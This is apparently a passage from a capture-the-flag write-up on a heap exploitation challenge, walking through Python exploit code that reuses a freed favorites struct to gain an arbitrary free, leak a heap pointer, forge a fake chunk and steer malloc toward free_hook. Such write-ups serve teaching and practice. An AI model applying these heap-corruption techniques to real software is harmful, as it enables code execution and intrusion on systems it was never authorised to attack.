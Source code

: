 (i had no idea about this, i just hit the error and looked at the source to see how to avoid, lol)

So first we will free everything (this will end with our favorites struct at position 8 of fastbin):

```python
    scrap_my_list(r)
```

So, moving forward, if we make some more allocations of size <= 0x18, we will get our favorites structure out and we can write into it!

... but what to write into it?

Recall the favorites structure contains:

- pointer to head of linked list
- favorite word

If we set the linked list pointer to anything other than NULL, the program will be willing to accept more favorites from us. And once it gets four favorites, favorite_word can be free'd -- this gives us an arbitrary free.

```python
def arbitrary_free(r, addr, garbage_ll_addr):
    # Before calling this, we have to have the favorites struct at
    # top of tcache. Thus we are overwriting the linked list pointer
    # with some writable address, and best_word ptr with 
    # address to free.
    suggest(r, 0x10, p64(garbage_ll_addr) + p64(addr))

    # Before calling this you also have to have 3 words in the fun
    # list. This will be the fourth and will trigger the favorites list
    # free-ing.
    suggest(r, 0x18, b"fun" + b"E" * 0x15)
    return
```

But what should we free?

### Heap leak and fake chunk

To get a heap leak, we can just read from the best_word without any additional work. The favorites structure is in a free'd chunk on the heap, and the favorite_word is pointing to some other free'd
chunk containing a heap pointer. So we just read from the favorite word and get a heap pointer.

Eventually, we want to get malloc() to return a pointer to free_hook. We will do this by constructing a fake chunk, free it, and then change it to point to free_hook.

```python
    # Create our fake chunk. 0x21 is the size and flags, 0xdeadbeef is garbage contents of chunk.
    suggest(r, 0x40, b"FAKECHNK" + p64(0x21)+p64(0xdeadbeef))
```

Now we have a free'd fake chunk, and thanks to our heap leak we know it's address. So we will use our arbitrary free to free our fake chunk.

```python
    fakechunk = heap_leak + (0x55555555bc70 - 0x55555555b940)
    
    # Free our fake chunk!
    arbitrary_free(r, fakechunk, garbage_ll_addr)
```
